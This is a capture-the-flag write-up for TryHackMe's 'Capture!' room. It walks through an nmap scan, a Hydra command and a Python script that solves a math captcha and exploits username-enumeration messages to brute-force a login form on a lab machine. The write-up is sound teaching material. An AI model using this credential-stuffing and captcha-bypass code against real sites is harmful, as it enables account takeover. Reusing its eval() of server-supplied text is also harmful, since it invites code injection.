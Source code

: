 # Capture! Writeup by 1nsouciance (l1asis)
![Room Picture](./images/room.png)

## Hi everyone! ***Capture!*** room on TryHackMe is pretty simple, but interesting room... Let's break it down!

## ***Resources***
### Make sure you download the .zip archive with logins and passwords provided by the room creator!

## ***Step 1: Reconnaissance***
### Nmap is powerful and handful tool for enumerating targets, so let's begin with it:
```bash
sudo nmap -sS -Pn 10.10.170.111
```
### **Nmap Results:**
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:00 BST
Nmap scan report for localhost (10.10.170.111)
Host is up (0.52s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.15 seconds
```

### There's a website. Let's check it with our browser:
![Screenshot](./images/screen1.png)

### **Login page!** Errors and incorrect credentials are our close friends right now! (you have to enter something and try to login)
![Screenshot](./images/screen2.png)

### **Oh no...** But now we do know, that the first security breach of this login form is that it shows us, whether the user exist or not! It is important to remember this.

## ***Step 2.1: Dictionary attack with Hydra***
### I will say up front, I tried to breach this login form with 'hydra' right away, but the long time without results showed that there was something else we didn't take into account...
```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.170.111/login:username=^USER^&password=^PASS^:Error"
```

### **Let's check the form with incorrect credentials one more time:**
![Screenshot](./images/screen3.png)

### **A-ha!** Mathematical captcha! From this moment, the most interesting stage of login form hacking begins: we'll write **an automated script in Python!**

## ***Step 2.2: Scripting***
### First of all we have to import two very useful libraries with `import` keyword, read our usernames and passwords from the files into lists and create url variable:
```python
import requests, re

url = "http://10.10.170.111/login"

with open("usernames.txt", "rt") as fd:
	usernames = fd.read().splitlines()
	
with open("passwords.txt", "rt") as fd:
	passwords = fd.read().splitlines()
```

### Next step may be a little bit hard to understand for beginners in hacking/programming. We'll create a regular expression for finding captcha string in the html server responses later:
```python
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")
```
### **P.S.** There's two useful websites, where you can read more about it, or practice creating your own regular expressions:
### | [Wiki](https://en.wikipedia.org/wiki/Regular_expression) | [Regex101](https://regex101.com/) |
 

### **Right then** we'll create function, that will send POST request, trying to log in:
```python
def send_post(username, password, captcha=None):
	data = {
		"username":username,
		"password":password,
	}
	if captcha:
		data.update({"captcha":captcha})
	response = requests.post(url=url, data=data)
	return response
```

### And another function to find the captcha equation and solve it with built-in python function `eval()`:
```python
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
```

### Then we'll try to find next captcha solution:
```python
for count in range(100):
	response = send_post("darthvader", "lukesfather")
	try:
		captcha = solve_captcha(response)
		print(f"Captcha synchronised! Next solution is: {captcha}")
		break
	except:
		pass
```

### **And our final block of code!** We'll iterate through all our usernames and passwords ***(but trying to identify existing username first)*** and then try all passwords to login:
```python
for username in usernames:
		response = send_post(username, "None", captcha)
		captcha = solve_captcha(response)
		if not "does not exist" in response.text:
			for password in passwords:
				response = send_post(username, password, captcha)
				if not "Error" in response.text:
					print(f"Success! Username:{username} Password:{password}")
					exit(0)
				else:
					captcha = solve_captcha(response)
```

## ***Phew.*** TIME X!
![Screenshot](./images/screen4.jpg)

## ***Finally :\)*** Let's now grab our flag...
![Screenshot](./images/screen5.jpg)

## **I hope you enjoyed my writeup. You can find the script in this repository. Be safe! <3**
